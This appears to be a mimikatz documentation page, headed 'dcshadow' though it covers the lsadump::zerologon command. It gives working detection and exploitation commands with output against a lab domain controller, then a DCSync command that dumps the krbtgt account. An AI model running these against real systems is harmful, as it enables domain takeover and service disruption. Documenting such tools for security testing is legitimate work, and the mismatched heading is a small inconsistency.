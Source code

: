 # dcshadow

`lsadump::zerologon` detects and exploits the [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon) vulnerability. It has the following command line arguments:

* `/account`: the target DC SamAccountName
* `/target`: the target DC FQDN
* `/exploit`: proceed with exploitation
* `/null`: null session authentication
* `/ntlm`: use NTLM authentication
* `/type`: The Secure Channel Types. The available values are:
  * Null
  * MsvAp
  * Workstation
  * TrustedDnsDomain
  * TrustedDomainUasServer
  * Server
  * CdcServer

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

Detect if the target domain controller is vulnerable:

### Detection

```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$
[rpc] Remote   : dc.hacklab.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : dc.hacklab.local
Account: dc$
Type   : 6 (Server)
Mode   : detect

Trying to 'authenticate'...
=============================================================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000

* Authentication: OK -- vulnerable
```

### Exploitation

```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$ /exploit
[rpc] Remote   : dc.hacklab.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : dc.hacklab.local
Account: dc$
Type   : 6 (Server)
Mode   : exploit

Trying to 'authenticate'...
=============================================================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000
  NetrServerPasswordSet2: 0x00000000

* Authentication: OK -- vulnerable
* Set password  : OK -- may be unstable
```

A [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) can then be conducted with [`lsadump::dcsync`](dcsync.md).

```
mimikatz # lsadump::dcsync /domain:HACKLAB.LOCAL /dc:dc.hacklab.local /user:krbtgt /authuser:dc$ /authdomain:HACKLAB /authpassword:"" /authntlm
```
